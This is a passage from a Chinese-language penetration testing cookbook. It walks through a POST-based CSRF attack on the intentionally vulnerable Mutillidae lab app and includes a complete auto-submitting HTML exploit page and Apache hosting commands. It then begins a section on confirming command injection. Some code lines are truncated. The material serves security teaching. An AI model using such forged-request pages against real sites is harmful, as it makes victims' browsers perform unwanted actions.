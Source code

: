 上面的例子中，我们可以看到，验证用户所提交的`blog`入口通过`blog_entry`POST 方法参数传递。为了利用这个 CSRF 控制的缺失，攻击者需要构造恶意页面，它能导致受害者提交所需的参数。下面是个 POST 方法 CSRF 攻击的例子：

```html
<html> 
<head>        
    <title></title> 
</head> 
<body>        
    <form name="csrf" method="post" action="http://172.16.36.135/ mutillidae/index.php?page=add-t$                
        <input type="hidden" name="csrf-token" value="SecurityIsDisabled" />                
        <input type="hidden" name="blog_entry" value="HACKED" />                
        <input type="hidden" name="add-to-your-blog-phpsubmit-button" value="Save+Blog+Entr$        
    </form>        
    <script type="text/javascript">                
        document.csrf.submit();        
    </script> </body> </html> 
```

这个恶意 Web 页面使用了 HTML 表单，它将多个隐藏的输入字段返回给服务器，这些字段对应 Mutillidae 应用的`blog`入口提交请求所需的相同输入。此外，JS 用于提交表单。所有这些事情在受害者不执行任何操作的情况下就会发生。考虑下面的例子：

```
root@KaliLinux:~# mv CSRF.html /var/www/ 
root@KaliLinux:~# /etc/init.d/apache2 start 
[....] Starting web server: apache2apache2: Could not reliably determine the server's fully qualified domain name, using 127.0.1.1 for ServerName 
. ok
```

为了部署这个恶意 Web 内容，应该将其移动到 Web 根目录下。在 Kali 中，默认的 Apache Web 根目录是`/var/www/`。同样，确保 Apache2 服务已打开。像这样：

![](img/7-17-1.jpg)

当验证后的受害者浏览器恶意页面时，受害者会自动重定向到 Mutillidae  博客应用，并提交博客入口`HACKED `。

### 工作原理

CSRF 的成因是请求最终由用户的会话生成。这个攻击利用受害者浏览器已经和远程 Web 服务器建立连接的信任。在 GET 方法 CSRF 的例子中，受害者被诱导访问某个 URL，其中的参数为恶意事务而定义。在 POST 方法 CSRF 的例子中，受害者被诱导浏览定义了参数的页面，这些参数随后会由受害者的浏览器转发给漏洞服务器，来指定恶意事务。在每个例子中，事务由于请求来自受害者的浏览器而被执行，受害者已经和漏洞服务器建立了可信的会话。

## 7.18 使用 HTTP 流量验证命令注入漏洞

命令注入可能是移植 Web 应用攻击向量中最危险的漏洞了。多数攻击者尝试利用该漏洞，以期望它们最后能够在底层 OS 上执行任意的代码。命令执行漏洞提供了无需额外步骤的可能。这个秘籍中，我们会讨论如何使用 Web 服务器日志或自定义 Web 服务脚本来确认命令执行漏洞。

### 准备
